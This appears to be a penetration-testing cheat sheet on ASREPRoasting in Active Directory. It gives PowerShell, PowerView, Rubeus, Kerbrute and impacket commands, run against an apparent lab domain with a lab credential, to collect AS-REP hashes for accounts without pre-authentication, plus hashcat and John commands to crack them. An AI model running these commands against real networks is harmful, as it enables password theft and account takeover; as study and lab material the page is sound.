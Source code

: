 ### Content
- [ASREPRoasting](#asreproasting)
- [ASREPRoasting from Windows](#asreproasting-from-windows)
- [ASREPRoasting from Linux](#asreproasting-from-linux)
- [Crack krb5asrep](#crack-krb5asrep)
---
## ASREPRoasting

- It's possible to obtain the (TGT) for any account that has the [Do not require Kerberos pre-authentication](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled.
- The authentication service reply (AS_REP) is encrypted with the account’s password, and any domain user can request it.

If an account has pre-authentication disabled, an attacker can request authentication data for the affected account and retrieve an encrypted TGT from the Domain Controller. This can be subjected to an offline password attack using a tool such as Hashcat or John the Ripper.

Ex:
<img src="../../../../../assets/preauth_not_reqd_mmorgan.webp" style="display: block; margin:auto; width:80%; height:60%;">

---
## ASREPRoasting from Windows

```Powershell
# ActiverDirectory:
PS C:\> Get-ADUser -Filter { (UserAccountControl -band 4194304) -and (Enabled -eq $true) } -Properties * | Select SamAccountName,userAccountControl,userprincipalname | fl

# Decode the userAccountControl in https://www.techjutsu.com/uac-decoder

# PowerView:
PS C:\> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

# Retrieving AS-REP in Proper Format using Rubeus
PS C:\> .\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

---
## ASREPRoasting from Linux


```bash 
# When performing user enumeration with Kerbrute, the tool will automatically retrieve the AS-REP for any users found that do not require Kerberos pre-authentication.
$ kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt

# With a list of valid users, we can use Get-NPUsers
$ impacket-GetNPUsers INLANEFREIGHT.LOCAL/  -usersfile users.txt -format hashcat -dc-ip 172.16.5.5 -outputfile out.txt
# We can use wordlist into the tool, it will throw errors for users that do not exist, but if it finds any valid ones without Kerberos pre-authentication

# We can use Get-NPUsers from authenticated point of view
$ impacket-GetNPUsers INLANEFREIGHT.LOCAL/forend:Klmcargo2  -request  -dc-ip 172.16.5.5 -outputfile out.txt
```
---
## Crack krb5asrep

```bash
# Hashcat
$ hashcat -m 18200 toCrack.txt /usr/share/wordlists/rockyou.txt 

# John
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5asrep toCrack.txt
```